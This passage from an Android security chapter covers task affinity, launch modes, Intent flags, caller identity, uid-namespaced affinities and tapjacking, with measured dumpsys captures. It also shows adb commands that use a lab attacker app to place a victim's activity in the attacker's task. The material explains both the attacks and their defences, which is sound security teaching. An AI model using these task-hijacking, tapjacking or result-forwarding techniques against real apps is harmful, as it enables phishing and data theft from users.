### 3.3 `taskAffinity` — the string that decides which spike

> **Definition**
> **`taskAffinity`** is a string naming the task an Activity *prefers* to belong to. It is declared
> with `android:taskAffinity` on `<activity>` or `<application>`. **Its default is the package
> name.** An Activity with affinity `com.example.app` will, when a task must be chosen or created
> for it, prefer a task whose affinity is `com.example.app`.

Three things follow from that definition, and getting them straight is most of the battle:

**1. The default means every app's task is named after the app.** Nobody writes
`android:taskAffinity`, so every Activity in `com.example.bank` has affinity `com.example.bank`, so
they all share one task, so the app "feels like one app". That is the intended, invisible, correct
behaviour — and it means the task's name is *entirely predictable from the package name*, which is
public. That predictability is the attacker's foothold in §5.2.

**2. The empty string means "no affinity".** `android:taskAffinity=""` is not "the default"; it is
the opposite of having one. An Activity with no affinity never joins a task by affinity and never
contributes one. On the device, this appears as `taskAffinity=null`:

```text
# measured — Redmi, Android 11 / API 30
      * Hist #0: ActivityRecord{62b7e97 u0 com.miui.home/.launcher.Launcher t2}
          taskAffinity=null
          occludesParent=true noDisplay=false immersive=false launchMode=2
```

The launcher declares `taskAffinity=""` and gets `null`. This is the hardening value, it is one
attribute, and it costs nothing on an app whose screens all live in one task anyway.

**3. Affinity is consulted only when a task is being chosen or created — not on every start.** This
is the misconception that produces the most wrong answers. If an Activity is started *into an
existing task* (the normal case: no `FLAG_ACTIVITY_NEW_TASK`, `standard` launch mode), its affinity
is **ignored entirely**. It goes into the caller's task regardless of what its affinity says. §3.8
measures exactly this.

Affinity is consulted when:

| Situation | Affinity consulted? |
|---|---|
| `standard`/`singleTop` Activity started from another Activity, no flags | **No.** It joins the caller's task. |
| `FLAG_ACTIVITY_NEW_TASK` is set | **Yes.** The system looks for an existing task with a matching affinity before creating one. |
| Launch mode is `singleTask` or `singleInstance` | **Yes.** These modes are defined in terms of the affinity group. |
| Started from a non-Activity context (Service, Receiver, `adb shell am`) | **Yes** — because `FLAG_ACTIVITY_NEW_TASK` is mandatory there, so the previous row applies. |
| `android:allowTaskReparenting="true"` and a matching task comes forward | **Yes**, at that later moment rather than at start time. |

> **Warning**
> That last table row is why `adb shell am start` is a poor instrument for task experiments. `am`
> runs in the shell process, which is not an Activity and has no task, so `am` supplies
> `FLAG_ACTIVITY_NEW_TASK` for you. **Every measurement you take with `am` is silently a NEW_TASK
> measurement.** The one case you most want to see — an Activity starting another app's Activity
> *without* NEW_TASK — is unreachable from the shell. `examples/hijacker-app/CrossStartActivity.java`
> exists purely to escape this limitation.

### 3.4 The launch modes, measured rather than quoted

Five values, four of which you will meet. Every row of the table below was verified on the device
with `examples/victim-app/`; the raw captures follow.

| `launchMode` | int in `dumpsys` | New instance per start? | Which task | Clears the stack above it? |
|---|---|---|---|---|
| `standard` (default) | 0 | **Always** | the caller's task | no |
| `singleTop` | 1 | Only if it is **not already at the top** of the target task | the caller's task | no |
| `singleTask` | 2 | Only if no instance exists in the affinity group | the task matching its affinity | **yes** — everything above it is destroyed |
| `singleInstance` | 3 | Only if no instance exists | **its own task, alone, forever** | n/a (nothing is ever above it) |
| `singleInstancePerTask` (API 31+) | 4 | One per task, several tasks possible | per task | yes, within the task |

#### `standard`, measured

```text
# host — Main, then Alpha (launchMode=standard) three times
# measured — Redmi, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.victim/.MainActivity"
$ adb shell "am start -n com.pentest.ch30.victim/.AlphaActivity"   # x3

    * Task{62729f2 #270 ... A=10308:com.pentest.ch30.victim ... sz=4}
      * Hist #3: ActivityRecord{6803ce0 u0 com.pentest.ch30.victim/.AlphaActivity t270}
      * Hist #2: ActivityRecord{9b209cb u0 com.pentest.ch30.victim/.AlphaActivity t270}
      * Hist #1: ActivityRecord{305e379 u0 com.pentest.ch30.victim/.AlphaActivity t270}
      * Hist #0: ActivityRecord{55e9d66 u0 com.pentest.ch30.victim/.MainActivity  t270}

# logcat, from the app's own side — three DIFFERENT Java objects
I CH30 : MainActivity  taskId=270 instance=112186008
I CH30 : AlphaActivity taskId=270 instance=100726225
I CH30 : AlphaActivity taskId=270 instance=149448718
I CH30 : AlphaActivity taskId=270 instance=240379445
```

Three starts, three distinct `identityHashCode`s, three `ActivityRecord`s, one task. That is
`standard`: no reuse, ever.

#### `singleTop`, measured — and the half of it people forget

```text
# host — Main, Beta x3, Alpha, Beta   (Beta is launchMode=singleTop)
# measured — Redmi, Android 11 / API 30

I CH30 : MainActivity  taskId=271 instance=112186008
I CH30 : BetaActivity  taskId=271 instance=100726225            <- constructed
I CH30 : BetaActivity onNewIntent taskId=271 instance=100726225 <- REUSED (was on top)
I CH30 : BetaActivity onNewIntent taskId=271 instance=100726225 <- REUSED again
I CH30 : AlphaActivity taskId=271 instance=58507823             <- Alpha pushed on top
I CH30 : BetaActivity  taskId=271 instance=198925002            <- NEW instance!

    * Task{32a4397 #271 ... sz=4}
      * Hist #3: .BetaActivity  t271     <- the new one
      * Hist #2: .AlphaActivity t271
      * Hist #1: .BetaActivity  t271     <- the old one, still there
      * Hist #0: .MainActivity  t271
```

**Two `BetaActivity` instances coexist in one task.** `singleTop` means "do not stack a second copy
*directly on top of* the first". It says nothing about the rest of the stack. The moment anything
else is pushed above it, the next start builds a fresh instance. Developers who reach for
`singleTop` to mean "only one of these ever" have not fixed the bug they thought they fixed — and if
that Activity is a login screen, the second instance is a second, unvalidated entry point.

#### `singleTask`, measured — and the claim that is wrong

The near-universal statement is *"`singleTask` creates a new task"*. Here is what actually happened:

```text
# host — Main, Alpha, Gamma, Alpha, Gamma   (Gamma is launchMode=singleTask)
# measured — Redmi, Android 11 / API 30

I CH30 : MainActivity  taskId=272 instance=112186008
I CH30 : AlphaActivity taskId=272 instance=100726225
I CH30 : GammaActivity taskId=272 instance=58507823              <- SAME task 272
I CH30 : AlphaActivity taskId=272 instance=198925002
I CH30 : GammaActivity onNewIntent taskId=272 instance=58507823  <- reused

    * Task{3bd4d87 #272 ... sz=3}          <- was 4, is now 3
      * Hist #2: .GammaActivity t272
      * Hist #1: .AlphaActivity t272
      * Hist #0: .MainActivity  t272
```

Two things to take from that. **`GammaActivity` stayed in task 272** — it did not create a task,
because a task with its affinity already existed and it joined that. And the stack **shrank from 4 to
3**: the second `AlphaActivity`, which had been sitting above Gamma, was destroyed. That is
`singleTask`'s clear-top behaviour, and it is the part with security consequences: an attacker who
can trigger a `singleTask` start can **destroy Activities above it**, which can be used to tear down
a confirmation screen or to force an app back to a chosen state.

`singleTask` creates a new task only when no task with a matching affinity exists. That is a very
different sentence from the one in the docs-derived write-ups.

#### `singleInstance`, measured

```text
# host — start Delta (singleInstance), then Alpha (standard)
# measured — Redmi, Android 11 / API 30

I CH30 : DeltaActivity taskId=273 instance=173823046   <- its OWN task
I CH30 : AlphaActivity taskId=272 instance=148316109   <- went BACK to 272, not into 273

    * Task{3bd4d87 #272 ... sz=4}     <- Main, Alpha, Gamma, Alpha
    * Task{ed35279 #273 ... sz=1}     <- Delta, alone
      * Hist #0: .DeltaActivity t273
```

`singleInstance` gets a task to itself and that task never accepts another Activity —
Alpha, started while Delta was on screen, was routed back into task 272 rather than stacked on Delta.
This is the strictest mode and it has real usability costs, which is why it is rare in production
and why finding it in a manifest is usually worth a moment's thought about *why* the developer
needed it.

### 3.5 The `FLAG_ACTIVITY_*` flags that decide task placement

[26-Intent §3.7](../26-Intent/README.md) lists these flags as fields on the message. Their *stack
semantics* are this chapter's, and here they are.

| Flag | Value | Effect on the task graph |
|---|---|---|
| `FLAG_ACTIVITY_NEW_TASK` | `0x10000000` | Look for a task matching the target's affinity; use it, or create one. **Without this, the target joins the caller's task.** Mandatory from a non-Activity context. |
| `FLAG_ACTIVITY_MULTIPLE_TASK` | `0x08000000` | With `NEW_TASK`, *always* create a fresh task instead of reusing a matching one. Used to bypass the "one task per affinity" rule. |
| `FLAG_ACTIVITY_CLEAR_TOP` | `0x04000000` | If an instance of the target exists in the target task, destroy everything above it and deliver to it. Turns any launch mode into clear-top behaviour for that one start. |
| `FLAG_ACTIVITY_SINGLE_TOP` | `0x20000000` | Behave as `singleTop` for this start, whatever the manifest says. **Means a caller can force `onNewIntent` on an Activity declared `standard`** — which is how the `getIntent()` trap of §3.1 is reached from outside. |
| `FLAG_ACTIVITY_CLEAR_TASK` | `0x00008000` | With `NEW_TASK`: empty the target task completely before starting. A caller-controlled way to destroy an app's whole stack. |
| `FLAG_ACTIVITY_REORDER_TO_FRONT` | `0x00020000` | Move an existing instance to the top without destroying anything. |
| `FLAG_ACTIVITY_NO_HISTORY` | `0x40000000` | Do not retain in the stack after the user leaves. Legitimate for OAuth screens; also attacker hygiene. |
| `FLAG_ACTIVITY_TASK_ON_HOME` | `0x00004000` | Place the new task above Home, so Back goes to the launcher rather than to the caller. |
| `FLAG_ACTIVITY_LAUNCH_ADJACENT` | `0x00001000` | Split-screen launch. Puts an attacker's window beside the victim's, which is a precondition for some observation scenarios. |
| `FLAG_ACTIVITY_RETAIN_IN_RECENTS` | `0x00002000` | Keep the task in Recents even after it finishes. |
| `FLAG_ACTIVITY_FORWARD_RESULT` | `0x02000000` | Re-point the result channel one level outward. **The single most important flag in §5.6.** |
| `FLAG_ACTIVITY_EXCLUDE_FROM_RECENTS` | `0x00800000` | Hide the task from Recents. Malware hygiene; also a legitimate privacy choice. |

> **Mental Model — the placement decision, in one sentence**
> If `FLAG_ACTIVITY_NEW_TASK` is absent and the launch mode is `standard` or `singleTop`, the target
> joins **the caller's task** and affinity is irrelevant. Otherwise the system looks for a task whose
> **effective affinity** matches, and creates one if there is none. Everything else is refinement.

`scripts/activity-trace.js` decodes these flags on every start it sees, so you can read the placement
decision as it is made instead of inferring it afterwards.

### 3.6 Caller identity for an Activity — the honest answer

The question a developer asks is *"can I tell which app started me?"* For an Activity, the answer is
worse than for a Service, and it is worth being exact about why.

| Mechanism | Trustworthy? | Availability | Notes |
|---|---|---|---|
| `getCallingActivity()` | **Yes, system-set** | **Only** if started with `startActivityForResult` | Returns `null` for a plain `startActivity`, for a `PendingIntent`, and from the shell. |
| `getCallingPackage()` | Same as above | Same restriction | Package part only. A package *name* is not an identity — pin the signing certificate. |
| `getReferrer()` | **No** | any | Falls back to `EXTRA_REFERRER`, an ordinary attacker-written extra. |
| `Binder.getCallingUid()` in `onCreate` | **No — returns your own uid** | any | See below. Measured. |
| `getLaunchedFromPackage()` | Yes, system-set | **API 34+** | Not available on the API 30 device; useful going forward. |
| `getLaunchedFromUid()` | Yes, system-set | **API 34+** | Same. |
| Any extra in the Intent | **No** | any | Attacker-authored. |

The `Binder.getCallingUid()` answer is the one that trips up otherwise-careful code, and
`scripts/activity-trace.js` prints it next to `Process.myUid()` so the reader sees it once and never
forgets:

```text
# measured — Redmi, Android 11 / API 30, via scripts/activity-trace.js
[!] ARRIVAL onCreate  com.pentest.ch30.victim.MainActivity
    task: taskId=332  isTaskRoot=true  instance=112186008
    identity:
      [tier 2 system-stamped] getCallingActivity() = null
      [tier 2 system-stamped] getCallingPackage()  = null
      [tier 3 attacker-authored] getReferrer()     = android-app://com.android.shell
      [USELESS HERE] Binder.getCallingUid() = 10311   Process.myUid() = 10311   <-- IDENTICAL
```

The reason is §2.2: `system_server` performed the start, so the only Binder transaction in scope when
`onCreate` runs is the one *from `system_server` to you*. There is no thread-local record of the
original caller because it was a different transaction on a different thread in a different process.

> **Mental Model — three tiers, and you must be able to place any claim instantly**
> 1. **Kernel-stamped** — `Binder.getCallingUid()` *inside a live Binder transaction*, i.e. in a
>    Service's `onTransact`. Unforgeable. [25-Binder](../25-Binder/README.md) demonstrates this by
>    trying to forge it and failing three times.
> 2. **System-stamped** — `getCallingActivity()` after `startActivityForResult`,
>    `PendingIntent.getCreator*()`, and (API 34+) `getLaunchedFromPackage()`. `system_server` fills
>    these from data it holds. Trustworthy, narrow, easy to forget exists.
> 3. **Message-carried** — everything else. Attacker-authored. Zero evidential value.
>
> When you review an authorisation check, find which tier it reads. A great deal of production
> Android security code reads tier 3 and believes it is reading tier 1.

The correct patterns are in [26-Intent §3.8](../26-Intent/README.md) and are not restaged here. The
Activity-specific summary: **if identity matters, do not do it in an Activity.** Expose the operation
over a bound Service and read the kernel-stamped uid, or put a `signature`-level permission on the
Activity and let `system_server` enforce it before you are started.

### 3.7 Affinity namespacing — the task-hijacking mitigation, measured

This is the claim this chapter exists to get right, and it is exactly the kind of version-keyed
statement that has been wrong in this repository before. So: no version numbers, evidence first.

**On the device, every effective task affinity carries a numeric prefix that appears in no
manifest.**

```text
# host — adb shell "dumpsys activity activities" | grep -E "affinity="
# measured — Redmi M2101K6P, Android 11 / API 30, MIUI 12.5
      affinity=10196:com.android.chrome            # Chrome runs as u0a196 -> uid 10196
      affinity=10141:com.miui.calculator           # u0a141 -> 10141
      affinity=10199:com.google.android.youtube    # u0a199 -> 10199
      affinity=1000:com.android.settings.root      # Settings runs as system, uid 1000
      taskAffinity=null                            # com.miui.home declares taskAffinity=""
```

The prefix is the **uid of the application that declared the affinity**. Chrome's `u0a196` is uid
10196; Settings runs as `system`, uid 1000, and its affinity is prefixed `1000:`.

The consequence is total. An attacker declaring `android:taskAffinity="com.victim"` does not get the
affinity `com.victim`. It gets `<attacker uid>:com.victim`, and the victim's own Activities get
`<victim uid>:com.victim`. **Two different apps can never produce the same effective affinity
string**, so the affinity-matching lookup that the classic attack depends on can never succeed.

Measured end to end, with two apps built for the purpose:

```text
# host — the attacker declares taskAffinity="com.pentest.ch30.victim" + launchMode="singleTask"
# measured — attacker uid 10312, victim uid 10311

# 1. launch the attacker once, exactly as its icon would
$ adb shell "am start -a android.intent.action.MAIN -c android.intent.category.LAUNCHER \
      -n com.pentest.ch30.attacker/.HijackActivity"

    * Task{2a5124b #289 ... A=10312:com.pentest.ch30.victim ... sz=1}
      * Hist #0: ActivityRecord{195b71a u0 com.pentest.ch30.attacker/.HijackActivity t289}
          taskAffinity=10312:com.pentest.ch30.victim
                       ^^^^^ the ATTACKER's uid, not the victim's

# 2. now the user taps the VICTIM's icon
$ adb shell "am start -a android.intent.action.MAIN -c android.intent.category.LAUNCHER \
      -n com.pentest.ch30.victim/.MainActivity"

    * Task{54df082 #290 ... A=10311:com.pentest.ch30.victim ... sz=1}
      * Hist #0: ActivityRecord{9f0dfcd u0 com.pentest.ch30.victim/.MainActivity t290}
    * Task{2a5124b #289 ... A=10312:com.pentest.ch30.victim ... sz=1}
      * Hist #0: ActivityRecord{195b71a u0 com.pentest.ch30.attacker/.HijackActivity t289}

  ResumedActivity: ActivityRecord{9f0dfcd u0 com.pentest.ch30.victim/.MainActivity t290}
```

Two tasks. The victim went into its own, fresh task #290. The attacker's parked task #289 was not
reused, and the activity actually on screen is the victim's. **The classic StrandHogg configuration
does not work on this device.** The `allowTaskReparenting` variant was tested separately and also
failed — §5.2 has that capture.

> **Under the Hood**
> The namespacing is applied in `system_server` when the effective affinity for an `ActivityRecord`
> is computed, in
> `frameworks/base/services/core/java/com/android/server/wm/ActivityRecord.java`. It is a *runtime*
> transformation: the parsed `ActivityInfo.taskAffinity` still holds the manifest's bare string, and
> the uid prefix is applied when the record is constructed. That is why the manifest and the dump
> disagree, and why reading the manifest alone tells you nothing about whether the attack works.
>
> Note the one case that is *not* prefixed: an empty declared affinity stays empty (`null`). "No
> affinity" cannot be namespaced because there is nothing to namespace.

> **Warning — do not turn this into a version claim**
> This chapter measured **one device**: Android 11 / API 30, MIUI 12.5. That is a single data point
> from a single OEM fork. It tells you the mitigation is present *there*. It does not tell you the
> API level at which AOSP introduced it, it does not tell you what an OEM with a heavier fork does,
> and it does not tell you what a 2016 device in the field does.
>
> **Measure the device in front of you.** That is a one-line command:
>
> ```bash
> # host — the empirical mitigation test, on any device
> python3 -B scripts/task-affinity-map.py --check
> ```
>
> which prints, on this device:
>
> ```text
> verdict  : NAMESPACED   (17 of 17 affinity strings carry a uid prefix)
> ```
>
> A bare affinity string means the mitigation is absent and the classic attack is live. Report what
> you measured, on the device you measured it on, and say so in those words.

### 3.8 The cross-package task — what namespacing does *not* fix

Affinity namespacing closes the attack where a malicious app **pulls** the victim into a task it
owns. It does nothing at all about the attack where a malicious app **pushes** its way into the same
task as the victim — because that path never consults affinity.

Recall the rule from §3.3: without `FLAG_ACTIVITY_NEW_TASK`, a started Activity joins **the caller's
task**, and its own affinity is ignored. So an attacker with an Activity on screen can start any
*exported* Activity of the victim and have it land in the attacker's task:

```text
# The attacker's own Activity performs the start (NOT adb shell — see the warning in 3.3)
# measured — Redmi, Android 11 / API 30
$ adb shell "am start -n com.pentest.ch30.attacker/.CrossStartActivity \
      --es target alpha --ez newtask false"

    * Task{5c7c765 #294 ... A=10312:com.pentest.ch30.attacker ... sz=2}
      * Hist #1: ActivityRecord{ae39e60 u0 com.pentest.ch30.victim/.AlphaActivity t294}
          taskAffinity=10311:com.pentest.ch30.victim      <- its affinity says "victim"
      * Hist #0: ActivityRecord{650085c u0 com.pentest.ch30.attacker/.CrossStartActivity t294}
          taskAffinity=10312:com.pentest.ch30.attacker    <- but the TASK is the attacker's
```

**One task. Two packages. Two uids.** The victim's Activity is running as the victim, in the victim's
process, in a task rooted at an attacker-controlled Activity. Its own affinity — correctly namespaced
to the victim's uid — was never consulted, because no task was being chosen.

Compare the same start with the flag set:

```text
# measured — the identical start, WITH FLAG_ACTIVITY_NEW_TASK
$ adb shell "am start -n com.pentest.ch30.attacker/.CrossStartActivity \
      --es target alpha --ez newtask true"

    * Task{922ccd9 #296 ... A=10311:com.pentest.ch30.victim  ... sz=1}   <- victim, alone
      * Hist #0: ActivityRecord{eab20 u0 com.pentest.ch30.victim/.AlphaActivity t296}
    * Task{dc5e125 #295 ... A=10312:com.pentest.ch30.attacker ... sz=1}   <- attacker, alone
      * Hist #0: ActivityRecord{af3711c u0 com.pentest.ch30.attacker/.CrossStartActivity t295}
```

Now affinity *is* consulted, the namespaced strings differ, and the two apps get separate tasks.

The security consequence of the first case is the Back button. The user is on the victim's screen.
They press Back. The victim's Activity finishes, and the next thing revealed is **the attacker's
Activity**, in the same task, with the same Recents entry, with no transition animation between apps
and no visual seam. If the attacker's Activity imitates the victim, the user has no cue at all.

> **Pentester's Note**
> `scripts/task-affinity-map.py` reports this as `MIXED-PACKAGE-TASK` at HIGH, deliberately above the
> squatted-affinity finding on a namespacing platform. The severity ordering is the point: on a
> modern device the *declaration* is inert and the *placement* is live, which is the opposite of what
> most checklists assume. The tool's output on the lab device reads:
>
> ```text
> [HIGH  ] MIXED-PACKAGE-TASK   (task 320)
>    task 320 contains activities from 2 packages: com.pentest.ch30.attacker,
>    com.pentest.ch30.victim. The user's Back button walks across a trust boundary
>    here. This is NOT an affinity effect and uid namespacing does not prevent it.
> ```

The defences are real but partial, and they belong to the *victim*:

| Defence | Effect | Cost |
|---|---|---|
| Do not export the Activity | Total, where applicable | Most exported Activities are exported on purpose. |
| `android:launchMode="singleTask"` on the sensitive Activity | The Activity always goes to its own affinity group, so it cannot be pulled into a foreign task | Real UX consequences; also brings clear-top behaviour. |
| `android:taskAffinity=""` on the sensitive Activity | Removes it from every affinity group | Does **not** prevent this case on its own, because affinity is not consulted here. |
| Check `getTaskId()` / `isTaskRoot()` in `onResume` and refuse to show sensitive content in a foreign task | Detective | Fragile, and the attacker can be the root of a task that looks fine. |
| `FLAG_SECURE` on the sensitive Activity | Does not stop the placement, but stops the screenshot | One line, worth it anyway. |

### 3.9 Tapjacking — a different subsystem entirely

Everything so far went through `ActivityTaskManagerService`. Tapjacking goes through
`WindowManagerService` and the input pipeline, and treating it as "another task attack" leads people
to apply the wrong mitigations.

> **Definition**
> **Tapjacking** is an attack in which the user's touch is delivered to a window they cannot see,
> because another application has drawn a window on top of it and made that window pass touches
> through.

The mechanism, in four steps:

1. The attacker holds **`SYSTEM_ALERT_WINDOW`** — a *special* permission. Declaring it in the
   manifest is not enough; the user must grant it through a Settings screen reached with
   `ACTION_MANAGE_OVERLAY_PERMISSION`. See [23-Permissions](../23-Permissions/README.md).
2. The attacker adds a window of type **`TYPE_APPLICATION_OVERLAY`** (2038) directly to
   `WindowManager`, from a **Service** — not an Activity, because an Activity's window is removed
   the moment the victim comes to the foreground.
3. That window sets **`FLAG_NOT_TOUCHABLE`**, so touches pass *through* it to whatever is beneath,
   and **`FLAG_NOT_FOCUSABLE`**, so the victim behaves normally.
4. The user reads the attacker's text ("Tap here to continue") and taps. The victim's button
   receives the touch.



**The platform already tells you.** The `MotionEvent` carries flags, and
`FLAG_WINDOW_IS_OBSCURED` (`0x1`) means "at the moment of this event, a window belonging to a
*different application* was covering part of this window". Since API 29 there is also
`FLAG_WINDOW_IS_PARTIALLY_OBSCURED` (`0x2`), set when the covering window does not overlap the
touched point itself.

The platform sets the flag and **delivers the event anyway**. Acting on it is the app's job, and the
default is to do nothing. That default is the vulnerability.

#### The defence

```java
// The whole fix. Either in code:
view.setFilterTouchesWhenObscured(true);

// or in a layout XML:
//   <Button android:filterTouchesWhenObscured="true" ... />
```

It is implemented in `View.onFilterTouchEventForSecurity()` in
`frameworks/base/core/java/android/view/View.java`, which returns `false` for an obscured event; a
`View` that returns `false` from that method never sees the touch.

> **Mental Model — why "discard" and not "warn"**
> The obvious instinct is to show the user a warning instead of dropping the touch. It cannot work.
> A warning is a UI element, and the attacker already controls the pixels on top of your UI —
> anything you draw, they can cover. **The only response available to you that the attacker cannot
> paint over is refusing to act.**

Three limits worth putting in a report, because a blanket "add `filterTouchesWhenObscured`"
recommendation is wrong:

1. **It is per-`View`, not per-Activity.** Set it on the root of the sensitive screen *and* on each
   consequential control. A `Dialog` is a separate window and needs its own treatment.
2. **It does nothing about an attacker who does not need your touch.** An accessibility service
   drives the UI directly; a screen recorder never touches anything.
3. **A legitimate system overlay sets the same flag.** A volume panel, an OEM gesture bar, a
   blue-light filter — all of them obscure your window. The flag says *covered*, never *attacked*.
   Correlate with `dumpsys window windows` to find out whose window it was before you write it up.

#### `FLAG_SECURE` — the adjacent control people conflate with this one

```java
// In onCreate, BEFORE setContentView.
getWindow().setFlags(WindowManager.LayoutParams.FLAG_SECURE,
                     WindowManager.LayoutParams.FLAG_SECURE);
```

`FLAG_SECURE` stops the window's contents being captured: no screenshot, no screen recording, no
entry in the Recents/Overview thumbnail, and the window is excluded from non-secure displays. It is
about **exfiltration of what is on screen**, and it is the right control for a screen showing a
one-time code, a private key, or account details.

> **Warning**
> `FLAG_SECURE` and `filterTouchesWhenObscured` solve *opposite* problems and neither substitutes for
> the other. `FLAG_SECURE` stops information leaving the screen. `filterTouchesWhenObscured` stops
> input arriving at it. A consent screen needs the second; a secrets screen needs the first; a screen
> that shows a code and asks for confirmation needs both. `android:excludeFromRecents` is a third,
> weaker thing again — it keeps the *task* out of Recents but does not stop the system snapshot being
> taken, which is why `FLAG_SECURE` is the control for that and `excludeFromRecents` is a hardening
> note. This distinction is made in [32-Manifest §3.6](../32-Manifest/README.md) too, and it is worth
> making twice.

### 3.10 The result channel

`startActivityForResult` establishes a channel back from the started Activity to the starter. It is
the only Activity mechanism that carries data *backwards*, and it is the least-validated input in
most applications.



Three properties with security consequences:

**1. The result is attacker-controlled whenever the callee is.** If `A` started `B` with an *implicit*
Intent, `B` is whichever app won resolution — which an attacker can influence (see
[26-Intent §3.4](../26-Intent/README.md) and the App Links material in §3.11). The `Intent` arriving
at `onActivityResult` is then entirely the attacker's. Code that reads
`data.getStringExtra("email")` out of a result and treats it as verified is extremely common.

**2. A URI grant can ride home on the result.** `setResult(RESULT_OK, intent)` where the intent
carries `FLAG_GRANT_READ_URI_PERMISSION` and a `content://` URI issues a grant *to the caller*. This
is the intended mechanism behind the photo picker, and it is also how a laundered grant returns.

**3. `FLAG_ACTIVITY_FORWARD_RESULT` re-points the channel outward.** If `A` starts `B` with that flag,
`B`'s result goes not to `A` but to *whoever started `A`*. It exists so a trampoline screen can
disappear from the flow. It also means that if a **deputy** forwards an attacker's Intent with the
flag set, the result — and any grant on it — comes straight back to the attacker with no cooperation
from the deputy. `examples/hijacker-app/DeputyExploitActivity.java` sets it for one line's cost.

> **Pentester's Note**
> The result channel is the reason `getCallingActivity()` exists at all, and the two facts are
> linked: an Activity that returns a result *can* identify its caller, and an Activity started with a
> plain `startActivity` cannot. If you find a component that checks `getCallingPackage()` and refuses
> when it is `null`, you cannot reach it with `am start` — you need an attacker app that uses
> `startActivityForResult`. That is a five-line app, not a dead end.

### 3.11 Deep links as an Activity entry point

A deep link is a `<data>` element on an `<intent-filter>` that makes an Activity reachable from a URI
— including a URI in a web page, if the filter carries `CATEGORY_BROWSABLE`.

The **resolution** side of this — how the filter matches, why `<data>` elements are sets rather than
tuples, `autoVerify` and App Links verification state, and the version-dependent commands for reading
it — is [26-Intent §3.11](../26-Intent/README.md)'s subject and is not repeated. What belongs here is
the *Activity* consequence:

| Deep-link fact | Activity consequence |
|---|---|
| A browsable filter makes the Activity startable **from a web page** | Your Activity's `onCreate` now processes input from any site the user visits. The reachability precondition is satisfied without any app being installed. |
| The Intent from a browser arrives with `FLAG_ACTIVITY_NEW_TASK` | The Activity lands in a task chosen by affinity, so a deep-linked screen may appear in a *different* task from the one the user was in. |
| A deep link can carry extras via `intent:` URI syntax | `onCreate` receives attacker-chosen extras, not only the URI. |
| A deep-linked Activity is usually `singleTask` or `singleTop` for UX reasons | Which means `onNewIntent` — and therefore the `getIntent()` trap of §3.1. |
| An unverified App Link shows a chooser | The user can be trained to pick the attacker's app. |

The combination worth looking for: **a browsable, `singleTask` Activity that forwards an Intent**. It
is web-reachable (no malware needed), it reuses instances (so validation-in-`onCreate` is bypassable),
and it is a deputy. §5.3 and `labs/lab-03` build exactly that shape.

### 3.12 Version Matrix

| Behaviour | API 21–25 | API 26–29 | API 30 | API 31+ | Notes |
|---|---|---|---|---|---|
| Overlay window types available to apps | `TYPE_SYSTEM_ALERT`, `TYPE_PHONE`, toast windows | `TYPE_APPLICATION_OVERLAY` only (26+) | same | same | The toast-overlay trick and the older types were closed in 8.0. |
| `SYSTEM_ALERT_WINDOW` auto-granted on install | yes for sideloaded apps on some builds | no — special permission, Settings toggle | no | no | Also revocable via `appops`. |
| `FLAG_WINDOW_IS_PARTIALLY_OBSCURED` | — | 29+ | yes | yes | Distinguishes "covered elsewhere" from "covered here". |
| `singleInstancePerTask` launch mode | — | — | — | **31+** | Rare; shows as `launchMode=4`. |
| `PendingIntent` mutability must be explicit | — | — | — | **31+** | [26-Intent §3.9](../26-Intent/README.md). |
| `android:exported` mandatory when a filter is present | — | — | — | **targetSdk 31+** | [32-Manifest](../32-Manifest/README.md). |
| Package visibility filtering | — | — | **targetSdk 30+** | same | Changes what your *attacker app* can see; see the trap in §7.5. |
| `getLaunchedFromPackage()` / `getLaunchedFromUid()` | — | — | — | **34+** | The first system-stamped caller identity available to a plain `startActivity` target. |
| `android:requireContentUriPermissionFromCaller` | — | — | — | **35+** | Directly targets the deputy pattern: the *caller* must already hold the grant. |
| Task affinity uid-namespacing | **measure it** | **measure it** | **measured: present** | **measure it** | Deliberately not asserted. §3.7 and `scripts/task-affinity-map.py --check`. |

> **Warning**
> The bottom row is written that way on purpose. This chapter measured one device. The repository has
> been wrong before by carrying a version-keyed claim forward from memory, and a mitigation table is
> exactly where that happens. Run the check.

---

## 4. Source Code Walkthrough (AOSP)

### 4.1 The files that matter

Activity starting is split across two processes, so the code is split across two halves of the tree.
Everything under `core/java` is the **app-side** half and runs in your process; everything under
`services/core/java` is the **system-side** half and runs in `system_server`.

| File | Half | What it owns |
|---|---|---|
| `frameworks/base/core/java/android/app/Activity.java` | app | The public API. `startActivity`, `startActivityForResult`, `setResult`, `getCallingActivity`, `getTaskId`, `isTaskRoot`, `finish`. |
| `frameworks/base/core/java/android/app/Instrumentation.java` | app | `execStartActivity` — the funnel every start passes through, and therefore the single best hook point. |
| `frameworks/base/core/java/android/app/ActivityThread.java` | app | The main-thread loop that receives launch transactions and drives `onCreate` / `onNewIntent` / `onDestroy`. |
| `frameworks/base/core/java/android/app/servertransaction/LaunchActivityItem.java` | app | The transaction object the system sends to *make* an Activity exist. |
| `frameworks/base/core/java/android/app/IActivityTaskManager.aidl` | boundary | The Binder interface. Everything crosses here. |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityTaskManagerService.java` | system | ATMS. The Binder endpoint; split out of `ActivityManagerService` in Android 10. |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java` | system | **The decision engine.** Resolution, permission checks, flag computation, task selection. This is the file the whole chapter is about. |
| `frameworks/base/services/core/java/com/android/server/wm/ActivityRecord.java` | system | The system's record of one Activity — including its **effective task affinity**. |
| `frameworks/base/services/core/java/com/android/server/wm/Task.java` | system | The task itself: the ordered list, the affinity, the base Intent, `rootAffinity`. |
| `frameworks/base/services/core/java/com/android/server/wm/RootWindowContainer.java` | system | The container hierarchy that owns displays and, beneath them, tasks. |
| `frameworks/base/services/core/java/com/android/server/wm/TaskDisplayArea.java` | system | Where tasks are searched for reuse on a given display. |
| `frameworks/base/core/java/android/content/pm/ActivityInfo.java` | both | The parsed manifest values: `LAUNCH_SINGLE_TASK` and friends, `taskAffinity` as declared, `flags`. |
| `frameworks/base/core/java/android/view/View.java` | app | `onFilterTouchEventForSecurity` — the tapjacking defence. |
| `frameworks/base/core/java/android/view/MotionEvent.java` | app | `FLAG_WINDOW_IS_OBSCURED`. |
| `frameworks/base/services/core/java/com/android/server/wm/WindowManagerService.java` | system | Window z-order, and where the obscured flag is decided during input dispatch. |
| `frameworks/base/services/core/java/com/android/server/uri/UriGrantsManagerService.java` | system | Where the URI grant of §5.3 is actually issued, on the *caller's* behalf. |

> **Warning — this part of the tree moves**
> Activity and task code was reorganised substantially in Android 10, when
> `ActivityTaskManagerService` was split out of `ActivityManagerService`, and again in Android 12,
